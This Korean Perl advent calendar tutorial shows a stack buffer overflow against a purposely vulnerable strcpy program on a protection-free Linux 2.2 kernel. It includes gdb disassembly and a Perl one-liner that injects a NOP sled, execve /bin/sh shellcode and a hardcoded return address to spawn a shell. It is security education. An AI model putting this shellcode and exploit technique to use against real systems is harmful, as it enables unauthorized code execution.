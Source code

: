 Title:    익스플로잇과 펄
Package:  Seoul.pm
Category: perl
Category: Seoul.pm
Author:   h00ray

저자
-----

@h00ray - 시험기간에 공부 안하고 프로그래밍 하는 잉여잉여한 학생, javaapi86 _at_ gmail.com


시작하며
---------

2014년에 들어오면서 리눅스 환경에서의 굵직한 취약점이 발표되었습니다.
[Bash 쉘 쇼크][wiki-shellshock]라던가 [OpenSSL Heartbleed][wiki-heartbleed] 말이죠.
이번 기사에서 다룰 내용은 나열한 취약점과는 거리가 있지만,
리눅스 환경에서의 해킹을 조금이라도 맛 볼겸(?)
메모리 버그의 일종인 [버퍼 오버플로우(BOF, Buffer Overflow)][wiki-bof]를
이용한 해킹 기법을 살펴보겠습니다.


배경 지식
----------

우선 공격할 리눅스 정보를 살펴볼까요?

    #!bash
    $uname -a
    Linux localhost.localdomain 2.2.14-5.0 #1 Tue Mar 7 21:07:39 EST 2000 i686 unknown

후아! 고대의 유물과 같은 버전이군요.
커널의 버전이 매우 낮다는 것을 알 수 있는데 사실 일부로 낮은 버전을 선택했습니다.
현재 최신의 리눅스 커널은 해커들의 공격을 막기위해 많은 보호 기법을 도입하고 있습니다.

이러한 보호 기법으로는
공격프로그램(exploit)이 스택이나 힙에서 실행되지 않도록 하는 [NX-bit][wiki-nx-bit],
메모리상의 공격을 방어하기위해 스택 주소를 무작위로 바꾸는 [ASLR][wiki-aslr],
상위주소를 `\x00` 값으로시작하게하는 즉 NULL처리를 시켜서 공격이 불가능하도록 하는 [ASCII armor][wiki-binary-to-text-encoding]
버퍼와 반환 주소 사이의 임의의 값이 변하면 프로그램을 종료시켜버리는 [canary][wiki-canary] 등이 있습니다.
[canary][wiki-canary]의 경우 해킹에 성공하려면 `eip`를 제어해야하는데,
이를 위해 반환 주소를 덮어써야 합니다.
하지만 canary 보호 기법이 반환 주소를 모니터링하면서, 값이 변하면 프로그램을 종료시켜 버리므로
한번에 공격할수있는 확률이 줄어들어 공격 난이도가 올라갑니다.

이처럼 다양한 보호기법이 적용되면서 예전의 방법으로 공격하기는 힘들지만,
[ROP(Return-oriented Programming)][wiki-rop]와 같은 공격 기법등 여전히 우회하는 방법은 있습니다.
이런 무지막지한 보호 기법을 우회하려는 방법인 만큼 매우 복잡하겠죠?
더 자세한 내용이 궁금하다면 [ROP(Return Oriented Programming) Exploit][home-teamcrak-rop] 문서를 참고하세요.


공격 대상
----------

지금부터 메모리 보호기법을 적용하지않은 (고대의?) 리눅스 커널을 대상으로 간단한 해킹을 해보죠.

다음은 공격할 프로그램의 전체 코드입니다.

    #!cpp
    //vuln.c
    //gcc -o vuln vuln.c
    #include <stdio.h>
    
    int main(int argc, char *argv[])
    {
        char buffer[256];
    
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    
        return 0;
    }

해킹에 성공하기 위해서는 "프로그램 구조를 개발자보다 잘 알아야 한다"라는
말이 있을정도로 프로그램의 구조를 완벽하게 이해하고 있어야합니다.
이제 분석을 하기위해 `gdb`를 실행합니다.

    #!bash
    $gdb vuln
    
    (gdb) disass main
    Dump of assembler code for function main:
    0x80483f8 <main>:	push   %ebp
    0x80483f9 <main+1>:	mov    %esp,%ebp
    0x80483fb <main+3>:	sub    $0x100,%esp
    0x8048401 <main+9>:	mov    0xc(%ebp),%eax
    0x8048404 <main+12>:	add    $0x4,%eax
    0x8048407 <main+15>:	mov    (%eax),%edx
    0x8048409 <main+17>:	push   %edx
    0x804840a <main+18>:	lea    0xffffff00(%ebp),%eax
    0x8048410 <main+24>:	push   %eax
    0x8048411 <main+25>:	call   0x8048340 <strcpy>
    0x8048416 <main+30>:	add    $0x8,%esp
    0x8048419 <main+33>:	lea    0xffffff00(%ebp),%eax
    0x804841f <main+39>:	push   %eax
    0x8048420 <main+40>:	push   $0x8048480
    0x8048425 <main+45>:	call   0x8048330 <printf>
    0x804842a <main+50>:	add    $0x8,%esp
    0x804842d <main+53>:	leave  
    0x804842e <main+54>:	ret    
    0x804842f <main+55>:	nop    
    End of assembler dump.

대충 봐도 현기증을 유발하는 디어셈블된 코드입니다.
유심히 살펴봐야 할 부분은 `strcpy`함수를 호출하는 부분입니다.

    #!plain
    0x8048411 <main+25>:	call   0x8048340 <strcpy>

간단하게 `strcpy` 함수에 대해 좀 더 알아보죠.

    #!cpp
    strcpy(buffer, argv[1]);

앞의 코드는 `argv[1]`의 값을 버퍼에 복사합니다.
요약하면 `eax`에는 `buffer`의 값 256 바이트,
`edx`에는 `argv[1]`의 값이 들어가 있습니다.

어셈블리 코드를 보면 `edx` 값을 넣고, 그 후 `eax(buffer)`를 스택에 넣으므로,
결국 `strcpy(%eax,%edx);`처럼 들어있는 셈입니다.
과연 생각한 것이 맞는지 `gdb`를 사용해서 확인해보겠습니다.

    #!bash
    (gdb) b *main+25
    (gdb) r 1
    Starting program: /home/vuln 1
    
    Breakpoint 1, 0x8048411 in main ()
    (gdb) x/s $edx
    0xbffffca0:	 "1"

우선 `main+25` 지점에 브레이크 포인트를 겁니다.
그 후 인자로 `1`을 주고 실행하면 `edx`에는 예상한대로 `1`이라는 값이 들어가 있습니다.

이제 `0xffffff00`이 뭘 뜻하는지 알아야합니다.
16진수를 10진수로 바꾸면 `256`이라는 값이 나옵니다.
256 바이트를 `buffer`가 사용하고 있으니, `ret` 주소는 `256 + 4`입니다.

자! 이제 펄 스크립트를 사용해 공격해보죠!

    #!perl
    $./vuln `perl -e 'print"A"x260'`
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Segmentation fault (core dumped)

`ret`값을 덮어쓰면서 공격하니 세그멘테이션 폴트 오류와 함께 강제 종료됩니다.
이제 익스플로잇 코드를 작성하면 끝입니다.

    #!perl
    $./vuln `perl -e 'print "\x90"x125 , "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80","\x90"x110,"\x38\xf9\xff\xbf"'`
    1?h//shh/bin??°
                    ?8
    bash$

와우! 공격에 성공했습니다 ;)

`\x90`은 `nop`이며 그냥 아무 것도 하지않고 다음 명령어로 넘어갑니다.
`\x31\xc0\x50...\x0b\xcd\x80` 부분은 쉘 코드입니다.
간단하게 쉘을 출력해주는 기계어 집합입니다.
`\x38\xf9\xff\xbf` 부분은 스택의 값으로 `gdb`를 통해서 살펴 본 스택 주소입니다.


마치면서
크리스마스 펄 달력이라는 내용과 맞게 펄에대한 팁이나 재미있는 내용을 주제로 선정했어야하는데... 평소에 해킹을 펄로 하다보니 글을 쓸수있는 주제가 한정되어 많이 아쉽네요.
그래도 이렇게 기회를 주신 여러 관계자분들께 감사하다는 인사를 보내면서 즐겁게 모두 한 해를 마무리하셨으면 좋겠습니다.
아 그리고 읽어주셔서 감사합니다!!


[home-teamcrak-rop]:                http://teamcrak.tistory.com/332
[wiki-aslr]:                        http://en.wikipedia.org/wiki/Address_space_layout_randomization
[wiki-binary-to-text-encoding]:     http://en.wikipedia.org/wiki/Binary-to-text_encoding
[wiki-bof]:                         http://en.wikipedia.org/wiki/Buffer_overflow
[wiki-canary]:                      http://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
[wiki-heartbleed]:                  http://en.wikipedia.org/wiki/Heartbleed
[wiki-nx-bit]:                      http://en.wikipedia.org/wiki/NX_bit
[wiki-rop]:                         http://en.wikipedia.org/wiki/Return-oriented_programming
[wiki-shellshock]:                  http://en.wikipedia.org/wiki/Shellshock_%28software_bug%29
